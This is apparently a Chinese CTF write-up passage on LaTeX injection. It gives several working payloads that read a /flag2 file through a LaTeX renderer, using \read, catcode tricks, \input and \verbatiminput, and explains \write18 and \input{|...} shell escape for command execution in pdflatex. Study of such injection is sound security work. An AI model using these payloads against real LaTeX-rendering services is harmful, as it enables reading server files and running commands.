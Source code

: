 

payload如下：(不需要进行循环，只有一行是不行的捏)

```
\newread\file 
\openin\file=/flag2 
\catcode`\#=11 
\catcode`\_=11 
\read\file to\line 
\line 
\closein\file
```





![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221030222037514.png)



②像perl脚本一样禁用控制字符。这样就能input包含$#_&空字节。

```
$$ \catcode `\$=12 \catcode `\#=12 \catcode `\_=12 \catcode `\&=12 \input{/flag2}
```



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221030223526401.png)

其中单点为下划线

③利用verbatiminput，mcfx大佬用的手法

```
$$ \makeatletter
这里放 verbatim.sty 的内容，记得删掉行末的 %
\makeatother
\verbatiminput{/flag2} $$
```



### 扩展知识：对\input和\write18原语解析，以及pdflatex导致的RCE

关于LateX找到相关文献hacking with LaTex。pdfLateX支持读写文件、执行命令，所以有可能存在rce和文件上传和包含。

来自于infosecwiteups的作者利用LateX进行RCE的过程。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221030210722860.png)

下列TeX原语将命令发送到shell

```
\immediate\write18{bibtex8 --wolfgang \jobname}
\input{|bibtex8 --wolfgang \jobname}
```

在Ubuntu16.04，`/usr/share/texmf/wb2c/texmf.cnf`配置文件控制pdflatex()的行为。

```
% Enable system commands via \write18{...}.  When enabled fully (set to
% t), obviously insecure.  When enabled partially (set to p), only the
% commands listed in shell_escape_commands are allowed.  Although this
% is not fully secure either, it is much better, and so useful that we
% enable it for everything but bare tex.
shell_escape = p

% No spaces in this command list.
%
% The programs listed here are as safe as any we know: they either do
% not write any output files, respect openout_any, or have hard-coded
% restrictions similar or higher to openout_any=p.  They also have no
```